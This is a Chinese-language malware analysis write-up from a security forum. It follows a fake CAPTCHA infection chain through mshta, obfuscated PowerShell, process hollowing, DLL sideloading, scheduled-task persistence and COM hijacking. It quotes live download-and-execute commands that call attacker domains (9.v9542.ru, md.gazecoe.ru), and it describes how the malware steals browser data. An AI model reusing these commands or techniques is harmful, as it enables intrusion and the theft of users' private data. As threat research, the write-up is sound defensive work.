# 记一次windows对抗的病毒分析-先知社区

> **来源**: https://xz.aliyun.com/news/19047  
> **文章ID**: 19047

---

## 行为分析：

**一句话背景：**病毒通过某网页人机验证诱导执行恶意文件；

**整体行为框架图：**



**分步分析：**

```
"C:\Windows\system32\mshta.exe" https://9.v9542.ru/tp7.check?t=wyj0dwf6
```

mshta.exe 是 Windows 的内建命令，用于执行 HTML 应用程序（HTA）。该命令将加载并运行指定 URL 的 HTA 文件，预期执行结果是启动一个 HTML 应用程序窗口，并执行其中的脚本，可能访问系统资源或修改设置。

mshta.exe 不会主动把内容下载到本地，而是直接在内存中执行。

9.v9542.ru的IOC已经纰漏：



通过mshta.exe命令，创建了一个计划任务servicensm，意图启动poWersHell.EXe；

手法：基于白名单Mshta.exe配置payload。

启动后，执行以下命令：

```
"poWersHell.EXe"-nopROfi-ExECUTIOnPO remoOTESiGnEd-WinDOWSTYI HiD-EN JABkAEMAWgBJAEcAMwAwADsAUwBBAHAAcwAgACIAJABIAG4AdgA6AF
cASQBOAEQASQBSAFwAUwB5AHMAVwBPAFcANgAOAFwAVwBpAG4AZABvAHcAcwBQAG8AdwBIAHIAUwBoAGUAbABsAFwAdgAxAC4AMABcAHAAbwB3AG
UAcgBzAGgAZQBsAGwALgBIAHgAZQAliACAALQBBAFIAZwBVAEOAZQBuAHQAbABJAHMAVAAgACcALQBuAE8AcABSAG8ARgBpAEwAZQAgACOARQB4AGUA
QwAgAFIAZQBNAG8AVABIAFMAaQBHAG4ARQBkACAALQBXAGkAbgAgAGgASQBkAGQAIAAtAGMATwBtAEOAYQBOAEQAIAAiAFMASQAgAFYAYQByAGkAYQ
BIAGwAZQA6AC8AQwBJACAAKAAoACgAKABbAE4AZQBOAC4
```

base64解码：

```
进程文件路径：C:Windows\System32\WindowsPowerShell\v1.0\poWersHell.EXe

解密命令行：
$dCZIG30;SAps "$env:WINDIR\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" -ArgUMentLIsT '-nOpROfiLe -ExEC RemoTeSiGnEd -Win hid -cOmMANd "SI Variable:/CI (((([Net.'
```

完整命令被截断，但创建进程powershell.exe：

```
进程“C:WindowslSysWOW64(WindowsPowerShellv1.0powershell.exe"-nOpRoFiLe-ExeC ReMoTeSiGnEd-Win hId -cOmMaND "SI Variable:/CI ([Net.WebClient]:New()|Member)|Where{(GV_).Value.Name-clike"nIg}).Name);Set-Variable ZjY([Net.WebClientj:New();SI Variable:68"https://md.gazecoe.ru/2dc065162ee8774c2517bf4c4d2c1211;(Get-Variabl行:e ZjY).Value.((GI Variable:ICI).Value)(Get-Childltem Variable:168).Value)|&(Childltem Variable:\E*t).Value.InvokeCommand.((Childltem Variable:1E"t).Value.InvokeCommand|Me..
```

md.gazecoe.ru的IOC已披露，通过这个url下载的脚本高度混淆：



尝试提取shellcode：

1. 第一层解密方式：两层base64+异或+utf-8字符转换，得到bin包；
2. 第二层解密方式：base64写入，得到shellcode；
3. 第三层解密方式：de4bot反混淆，发现可疑文件资源包；
4. 第四层解密方式：资源包中发现MZ头，提取保存PE文件；

所有得到的文件均高度混淆和加密，分析困难，经推测，loader为第三层解密文件，攻击载荷为第四层解密文件，尝试找到解密方式和恶意载荷与加载器的联系；

当时怀疑是DES，调用链中大量DES使用痕迹，但是KEY和IV动态生成并且有些地方反编译失败，但同时疑似看到了重写方法中有对AES的使用......

如果主函数没有找错的话：



```
Class28().method_0(Class25.smethod_0(12211),Class25.smethod_0(12268),Class25.smethod_0(12273), Class25.smethod_0(12251));
```

通过对调用链逻辑分析，怀疑：

class28为加密载荷loader

class2为加密算法：3DES（自定义封装，同时强制base64格式输入，与前文解密手法类似）

class25为加密数据：通过输入的值查找hashtable，hashtable怀疑是动态加载

尝试分析class25：

​ 动态加载资源：Mjzgkd

​ 运行时动态生成代码：AssemblyBuilder、TypeBuilder

​ 反调试/反分析机制：


class25中用class23.semthod\_0对密钥进行处理；

​ 加密方式：4字节轮询XOR【（i % 4）\*8】；

​ 密钥来源：class23.int\_1(疑似动态获取)；

梳理一下，对载荷用class2方式进行加密，密钥用class23方式进行加密，并且没有发现硬编码部分写入密钥.....解不动了，继续看行为叭

​

脚本调用powershell成功后，开始写入内存等操作：

powershell.exe的后续操作：

1、设置MSBuild.exe的线程上下文；

2、指定Explore.exe为MSBuild.exe的父进程；

MSBuild.exe被挖空，同时大量申请chrome.exe和msedge.exe的内存,顺带访问了用户浏览器存储的隐私数据。

然后MSBuild.exe创建rundll32.exe和VorteProcessor32.exe，继续下一步操作；

看了一下rundll32.exe的日志，怎么感觉只是为了通信和加载内存：

VorteProcessor32.exe被创建以后，挖空了加载的dll，加载了AliyunWrap.dll，并且创建了poasm.exe和Chime.exe。

所有操作完成后，Chime.exe创建名为er32的计划任务，实现后续。



## 样本分析：

筛查了一遍，目前只有poasm.exe和AliyunWrap.dll存在恶意情报；

（就因为这句话，后面发现大大的问题.....可太多白加黑痕迹、dll劫持，以及com组件的使用）

**AliyunWrap.dll**：

第一次出现在VroteProcessor32.exe模块加载的流程，后续没有直接产生日志。

通过筛查找到原始的AliyunWrap.dll文件，

来源是一款管理数据，恢复数据软件EaseUS Partition Master中的dll文件，

主要用途是用来收集系统信息，集中到日志以后，调用LocateAliyun.ini、DataFile.ini、AliyunConfig.ini等配置文件，进行网络通信。

样本中得到的文件保留了原有的导入表和PE格式，以及收集数据、注册表和系统访问的功能；



用diff进行对比，相似度99%，但样本和原文件在调用逻辑上产生了差异，查看相似度最低的地方，放到IDA进行静态分析，反分析\反调试痕迹严重：





将dll文件attach到rundll32.exe上，配合OD\x64dbg进行分析，反调试痕迹严重，找到两个个IP和一段域名的来往通信，截止目前为止，网络上没有找到域名和IP的相关信息：



细节扣不动了....目前可以确定的功能是盗取隐私数据

尝试反向查找病毒的母体，最终只能定位到这里：



根据已知开始信息收集，病毒的母体尚未找到，~~类型疑似变种Rugmi，获取报告显示该病毒有三个组件：第一个组件是下载器，用于获取加密的有效载荷；第二个组件是从内部资源运行有效载荷的加载器；最后一个组件是从磁盘上的外部文件运行有效载荷的加载器。跟我最终定位的三个恶意文件类似。~~

**持久化痕迹：**

梳理了一下，有了新发现，上面“疑似”情况全作废.....

完整链路复现成功，定位持久化痕迹，发现两个计划任务：



计划任务怎么创建的呢？

因为上面陷入了对恶意情报文件的分析，导致放过了被白加黑的文件Chime.exe。

它的行为：

1、加载被挖空的d3d9.dll——>调用combase.dll——>创建er32计划任务，只要登陆就能触发；

2、再次加载并且再次挖空d3d9.dll——>创建 ms service\_test.job——>创建ms service\_test计划任务，根据时间规定进行触发；

3、大量的注册表操作；

因为有combase.dll操作，怀疑是com组件的利用，通过结果找答案：

com组件的加载过程如下：

```
HKCU\Software\Classes\CLSID
HKCR\CLSID
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\shellCompatibility\Objects\
```

果然找到了：

完整逻辑：在InprocServer32下查找缺失的CLSID，对com实现劫持。
